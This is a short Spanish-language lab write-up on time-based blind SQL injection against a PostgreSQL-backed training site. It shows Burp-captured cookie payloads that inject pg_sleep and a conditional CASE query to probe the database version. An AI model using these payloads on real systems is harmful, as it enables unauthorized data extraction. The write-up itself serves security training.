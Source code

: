 ![](/assets/img/SQLI-Lab-15/image_1.png)

Si `capturamos` la `petición` a la web con `Burpsuite` vemos un campo llamado `TrackingId`

![](/assets/img/SQLI-Lab-15/image_2.png)

He probado a añadir `'`, `"`, `)` junto con los operadores `or` y `and` y no he encontrado `ningún` `cambio` en la web. Sin embargo, he usado los operadores `||` para concatenar con `pg_sleep(10)` y web ha tardado `10 segundos` en `responder`, además sabemos que nos estamos enfrentando a un `PostgreSQL` porque la instrucción `pg_sleep(10)` es propia de esta `base` de `datos`

```
Cookie: TrackingId=x28BMrUFiaXdwOX9'||+pg_sleep(10)--+-+; session=E2WYaiK3xD6cIhaLsbMrAy8CIgDpJN9Y
```

Con este `payload` podemos `listar` la `versión`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(length(version())>1)+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD
```
